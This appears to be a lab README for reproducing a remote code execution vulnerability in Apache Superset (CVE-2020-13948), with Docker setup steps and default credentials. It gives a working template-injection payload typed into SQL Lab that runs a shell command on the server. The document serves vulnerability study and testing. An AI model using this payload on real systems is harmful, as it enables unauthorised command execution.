 # Apache Superset Remote Code Execution（CVE-2020-13948）

[中文版本(Chinese version)](README.zh-cn.md)

References:

 - https://github.com/apache/superset/commit/a72903cb929c55642b22895dc11999495605a6fe
 - https://mp.weixin.qq.com/s?__biz=Mzg2NjgzNjA5NQ==&mid=2247514583&idx=3&sn=241457690e19c1468deb89dd84872d35&source=41#wechat_redirect

## Setup

```
chmod +x init.sh
docker-compose build
docker-compose up -d
```

`superset load_examples` needs to wait for a while, you can manually log in to the container to execute `bash /init.sh`

Once the environment is launched, Visit the page to view Superset's page `http://your-ip:8080` , username/password: admin/admin。

## Exploit

1. access the url `http://your-ip:8080/superset/sqllab`
2. Database choose the `examples`
3. enter `select 1 as {{uuid.os.popen('echo success').read()}}`
4. clike `run`

![](1.png)
![](2.png)
![](3.png)
![](4.png)
![](5.png)
